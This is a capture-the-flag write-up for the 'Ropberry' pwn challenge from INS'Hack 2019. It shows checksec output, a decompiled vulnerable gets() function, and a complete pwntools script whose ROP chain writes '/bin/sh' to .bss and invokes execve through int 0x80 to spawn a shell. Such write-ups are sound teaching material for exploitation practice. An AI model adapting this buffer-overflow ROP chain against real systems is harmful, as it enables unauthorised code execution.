

# Ropberry

INS'Hack CTF 2019


This is an easy-level Pwning problem for INS Hack 2019.

### Problem description

You hack this guy on challenge called gimme-your-shell, but he is still always asking me the same question when I try to find his secret. Maybe you can do something.

He is waiting for you at: `ssh -i <your_keyfile> -p 2226 user@ropberry.ctf.insecurity-insa.fr` To find your keyfile, look into your profile on this website.

binary


### Reconnaissance

For this one I can't run shellcode on the stack. Looks like a ROP from the title. `Checksec` shows:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   ropberry
```

It's a 32-bit binary. Let's disassemble it with Ghidra:

Wow, Ghidra is slow to analyze this! No wonder, it's statically linked, so ROP will be easy.

```
void vuln(void)

{
  char local_8 [4];

  printf("> Ok, now give me the name of our president.\n");
  fflush((FILE *)0x0);
  gets(local_8);
  return;
}
```

Yep, I just need to ROP a call to `system` directly.

The problem is essentially just setting up a call to `execve('/bin/sh', NULL, NULL)`. I jumped straight to the `gets` code to put `/bin/sh` in the .bss section, then I just use some ROP gadgets to get the rest of the problem set up and then jump to an `int 0x80` instruction. Here's the flag:



And the exploit code:

```
from pwn import *
from time import sleep

DELAY = 0.1
p = process('/bin/sh')
p.send('ssh user@ropberry.ctf.insecurity-insa.fr -i ~/.ssh/id_inshack -p 2226\n')


RET_ADDR = 0x08048134
GETS_ADDR = 0x08049af0
POP_ESI_ADDR = 0x08049a83
POP_EBX_ADDR = 0x080481ec
POP_EDI_ADDR = 0x080495b1
POP_EAX_ADDR = 0x080c1906
INT_80_ADDR = 0x080493e9
POP_ECX_ADDR = 0x080e394a
POP_EDX_ADDR = 0x0805957a

p.recvuntil("president.")

payload = "A"*8 # second set of A's is saved ebp
payload += p32(POP_ESI_ADDR)
payload += p32(0x0)
payload += p32(POP_EBX_ADDR)
payload += p32(0x0)
payload += p32(POP_EDI_ADDR)
payload += p32(0x0) # saved %edi, I don't think I need any of these actually.
payload += p32(GETS_ADDR)
payload += p32(POP_EDI_ADDR) # The return address from GETS -- I want it to be POP rdi or something, anything that skips the next address.
payload += p32(0x080ed908) # bss section, read "/bin/sh" into there.

# Want edi to have pointer to "/bin/sh"
payload += p32(POP_EDX_ADDR)
payload += p32(0x0)
payload += p32(POP_ECX_ADDR)
payload += p32(0x0)
payload += p32(POP_EBX_ADDR)
payload += p32(0x080ed908)
payload += p32(POP_EAX_ADDR)
payload += p32(0xb)
payload += p32(INT_80_ADDR)

# ebx must be null, esi must be null
payload += "\n"
p.send(payload)


payload2 = "/bin/sh\x00\n"
p.send(payload2)
p.interactive()
```
